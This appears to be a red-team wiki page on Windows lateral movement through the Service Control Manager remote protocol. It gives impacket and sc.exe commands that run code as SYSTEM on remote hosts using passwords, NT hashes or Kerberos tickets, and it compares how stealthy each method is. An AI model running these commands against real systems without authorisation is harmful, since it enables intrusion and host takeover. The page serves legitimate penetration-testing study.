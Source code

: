 ```yaml
---
label: MS-SCMR
---
```


# MS-SCMR: Service Control Manager Remote Protocol

> **Typical requirements**
>
> * Credentials (password, NT hash, Kerberos TGT) of local administrator on target machine.
> * Read-write SMB share access.
> * Active remote SCM on the target machine (always by default).
> * Active SMB share on the target machine (always by default).

## Description

Through the [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) (RPC) protocol, Windows allows remote communication with another machine's [Service Control Manager](https://learn.microsoft.com/pl-pl/windows/win32/services/service-control-manager) (SCM). This allows, among other things, remote startup of services. This capability ultimately allows the user to execute code on another machine (by creating a service), which is the basis for techniques like PsExec and SmbExec.

PsExec and SmbExec are well-known attacks designed to establish a pseudo-interactive "shell" on the target machine. Both attacks require access to SMB share of the target host (445/TCP).

It is worth remembering that remote service creation is a built-in feature of standard `sc.exe`. There is no magic here, it is a standard feature of Windows. Without SMB access, the service will execute, but we cannot provide a malicious binary to the service or receive a response. Most often, however, if remote execution of the service is possible, a read-write SMB share is also available (e.g. default `ADMIN$` or `C$` share).

By default, using service execution techniques a user needs to be a **local administrator** on the target machine to remotely interact with SCM via RPC. Windows services executed by the local administrator by default run in the context of **SYSTEM user**. Logon via MS-SCMR (RPC call) is of the **Network type** (no reusable credentials).

## PsExec

> **IMPORTANT**: A user who wants to use PsExec on a remote machine must have read-write access to at least one SMB share. Without remote SMB access, it is not possible to use PsExec.

Linux:

```bash
# Using password
impacket-psexec $domain/$user:$password@$host

# Using NT hash
impacket-psexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-psexec $domain/$user@$host -k -no-pass
```

Windows ([SysInternals - PsExec.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```powershell
# Using password
.\PsExec.exe -accepteula -u $user -p $password \\$HOST cmd

# Using Kerberos TGT (in-memory)
.\PsExec.exe -accepteula -u $user \\$HOST cmd
```

PsExec works by writing an `.exe` binary to the writable SMB share on the target host. Then, SCM is called remotely (via RPC) to execute the binary using created service. Binary creates a named pipe accessible via SMB. This named pipe is used by the user to execute commands remotely and read the output. Two-way communication is established via SMB.

> **Caveats**:
>
> * A generic binary is often detected by AV.
> * PsExec leaves artifacts behind on SMB share that require manual cleaning. The uploaded binary is not automatically removed.

## SmbExec

Linux:

```bash
# Using password
impacket-smbexec $domain/$user:$password@$host

# Using NT hash
impacket-smbexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-smbexec $domain/$user@$host -k -no-pass

# Debug mode (shows every executed `binPath` command)
impacket-smbexec [...] -debug
```

Unlike PsExec, SmbExec doesn't transfer a detectable binary to the target host. Instead of using a malicious binary, SmbExec launches a new service (using SCM remotely via RPC) with each new command. It executes the command in the `binPath` parameter of the service and closes the service. It just executes each desired command as a new service. Output is read via SMB share. There is no leftover on disk.

SmbExec is stealthier alternative to noisy and easy to detect PsExec. Nevertheless, it is important to remember that an event log is created for every command executed (service creation).

> **Caveats**
>
> * Each command run by SmbExec is a separate service. Therefore, there is no real session. Loading modules in PowerShell makes no sense. You have to load and call the module in a single command.
> * There's no `cd` command. Again - there's no real session.

## Raw Service Execution (ScExe)

You can use the standard Windows tool `sc.exe` to run a service on a remote machine. It can be a single shell command or, for example, a reverse-shell binary sent over SMB.

Linux (`impacket-services` is basically a Linux port of native `sc.exe`):

```bash
# Using password
impacket-services $domain/$user:$password@$host [action]

# Using NT hash
impacket-services -hashes :$nt_hash $domain/$user@$host [action]

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-services $domain/$user@$host -k -no-pass [action]

# Actions
list -h
create -h
start -h
stop -h
delete -h
```

Windows:

> **IMPORTANT**: Watch out for spaces in arguments. They are necessary!

```powershell
# Create and start service
sc \\$host create $svc_name binPath= "cmd.exe /c $command" start= auto
sc \\$host start $svc_name

# Stop and delete service
sc \\$host stop $svc_name
sc \\$host delete $svc_name
```

<!-- TODO: How to provide credentials to `sc.exe`. -->

## References

* [Rift, _SMBExec: Red Side Analysis_](https://rift.stacktitan.com/smbexec/)
* [Boitatech, _SmbExec/ScExec_](https://hacktricks.boitatech.com.br/windows/ntlm/smbexec)
* [Ryan Hausknecht, _Offensive Lateral Movement_](https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f)
